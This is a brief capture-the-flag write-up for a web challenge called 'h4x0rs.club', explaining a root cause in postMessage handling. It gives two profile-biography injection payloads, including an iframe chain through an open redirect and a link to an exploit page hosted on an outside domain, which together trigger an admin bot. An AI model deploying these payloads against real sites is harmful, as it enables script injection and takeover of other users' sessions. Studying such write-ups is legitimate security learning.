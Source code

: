# h4x0rs.club

Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.

Create 2 users: `blah1` && `blah2`

Root cause:

Because on the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.

### blah1
Set biography as the following:
```
<a href='//l4w.io/exploit.html' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report><iframe>' id=report-btn></a>
```

`<iframe>` with a location src is allowed by XSS Auditor. So using open-redirect for 2 various reason.

Then report `blah2` user along with `#report`



